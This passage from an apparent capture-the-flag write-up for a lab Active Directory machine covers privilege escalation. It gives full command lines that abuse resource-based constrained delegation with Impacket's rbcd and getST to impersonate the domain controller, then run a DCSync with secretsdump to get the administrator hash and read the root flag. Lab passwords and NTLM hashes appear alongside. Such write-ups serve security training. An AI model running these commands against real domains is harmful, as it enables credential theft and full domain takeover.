First, we need to get a valid TGT[^9] for `delegator$` and then use Impacket's `rbcd` script to set the its `ms-ds-AllowedToActOnBehalfOfOtherIdentity` attribute. The latter is used to control what front-end service can delegate to the backend `delegator$` in RBCD[^10]. For doing that, we need the front-end service account to have a SPN[^11]. Fortunately, the already compromised `ldap_monitor` account has one: `ldapmonitor/dc01.rebound.htb` (Figure 11).

```bash
# get object information about ldap_monitor
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01 get object ldap_monitor
```

<figure><figcaption><p>Figure 11: Retrieving the SPN of ldap_monitor account.</p></figcaption></figure>

Next, we will give `ldap_monitor` the ability to impersonate any users on `delegator$` (Figure 12).


```bash
# assign delagation
impacket-rbcd 'rebound.htb/delegator$' -hashes :43e9069a73081ecfcbe1514e1d4e3bc8 -k -delegate-from ldap_monitor -delegate-to delegator$ -action write -dc-ip dc01 -use-ldaps
# check delegation
impacket-findDelegation rebound.htb/oorend:'1GR8t@$$4u' -dc-ip 10.10.11.231 -k
```


<figure><figcaption><p>Figure 12: Asssigning and confirming delegation rights. </p></figcaption></figure>

Moving forward, we will perform a `S4U2self + S4U2proxy` for the browser service on `delegator$` to obtain a forwardable ST[^12] for `browser/dc01.rebound.htb`. Then, we will do an additional `S4U2Proxy` to delegate to the `HTTP/DC01` service which will allow us to get a ticket as the  `DC01$` (Figure 13 & 14).


```bash
# generate a service ticket
impacket-getST 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$
# get details about the generated ticket
describeTicket.py 'DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache'
# generate a servicve ticket using the previous one
impacket-getST 'rebound.htb/delegator' -hashes :43e9069a73081ecfcbe1514e1d4e3bc8 -spn 'http/dc01.rebound.htb' -impersonate DC01$ -additional-ticket 'DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache'
# set the KRB5CCNAME environment variable
export KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache'
```


<figure><figcaption><p>Figure 13: Impersonating DC01$.</p></figcaption></figure>

<figure><figcaption><p>Figure 14: Using the first service ticket to generate a second one.</p></figcaption></figure>

Having done that, we can now use this ticket to perform a [DCSync attack](../../../tl-dr/tl-dr/active-directory/attacks/dcsync.md) as `DC01$`, retrieve the `administrator`'s hash, and snatch the flag (Figure 15).


```bash
# performing a DCSync attack
impacket-secretsdump -k -no-pass -just-dc-ntlm dc01.rebound.htb -just-dc-user administrator
# snatching the root flag
nxc smb 10.10.11.231 -u administrator -H admin_hash -x "type c:\users\administrator\desktop\root.txt"
```


<figure><figcaption><p>Figure 15: Performing a DCSync attack and snatching the root flag.</p></figcaption></figure>

[^1]: Relative Identifier

[^2]: group Managed Service Accounts

[^3]: Elevation of Privileges

[^4]: Domain Controller

[^5]: Fully Qualified Domain Name

[^6]: Resource-Based Constrained Delegation

[^7]: Service Ticket

[^8]: Service Ticket

[^9]: Ticket Granting Ticket

[^10]: Resource-Based Constrained Delegation

[^11]: Service Principal Name

[^12]: Service Ticket
